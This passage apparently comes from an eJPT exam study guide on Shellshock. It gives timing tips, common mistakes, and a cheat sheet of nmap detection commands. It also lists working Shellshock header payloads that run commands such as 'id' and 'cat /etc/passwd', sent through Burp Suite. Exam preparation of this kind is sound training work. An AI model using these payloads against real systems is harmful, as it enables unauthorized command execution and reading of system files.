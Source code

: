 ### 💡 **Pro Tips for eJPT Success:**

**🔥 Time Management:**
- **Detection Phase:** Maximum 5 minutes
- **Exploitation Phase:** Maximum 10 minutes  
- **Documentation Phase:** Maximum 5 minutes
- **Total Shellshock Task:** Never exceed 20 minutes

**🔥 Common Exam Mistakes to Avoid:**
- ❌ Forgetting to check source code for CGI script paths
- ❌ Using wrong NSE script arguments
- ❌ Not testing with simple commands first (like 'id')
- ❌ Forgetting to configure Burp Suite proxy correctly
- ❌ Not taking screenshots of successful exploitation

**🔥 Success Indicators (Know these!):**
- ✅ NSE script shows "VULNERABLE (Exploitable)" 
- ✅ Command execution returns expected output
- ✅ User identity confirmed (usually daemon or www-data)
- ✅ System files accessible (/etc/passwd readable)

### 📝 **Quick Reference Cheat Sheet:**

```bash
# DETECTION COMMANDS
nmap -sV TARGET                                              # Service detection
nmap --script http-shellshock TARGET                        # Basic Shellshock scan
nmap --script http-shellshock --script-args "http-shellshock.uri=/PATH" TARGET

# EXPLOITATION PAYLOADS  
() { :; }; echo; echo; /bin/bash -c 'id'                    # Who am I?
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'       # User enumeration
() { :; }; echo; echo; /bin/bash -c 'ps -ef'                # Process enumeration
() { :; }; echo; echo; /bin/bash -c 'ls -la /home'          # Directory listing

# BURP SUITE WORKFLOW
1. Configure FoxyProxy → Burp Suite
2. Proxy → Intercept → "Intercept is on"  
3. Navigate to target → Capture request
4. Send to Repeater
5. Modify User-Agent header
6. Click "Send" → Analyze response
```

---

## ⚠️ Common Issues & Troubleshooting

### 🔧 **Issue 1: NSE Script Returns No Results**

**🚨 Problem:** Nmap Shellshock script doesn't detect vulnerability on known vulnerable target

**🔍 Root Causes:**
- Incorrect CGI script path specified
- Target filtering HTTP headers
- CGI script not executable or accessible
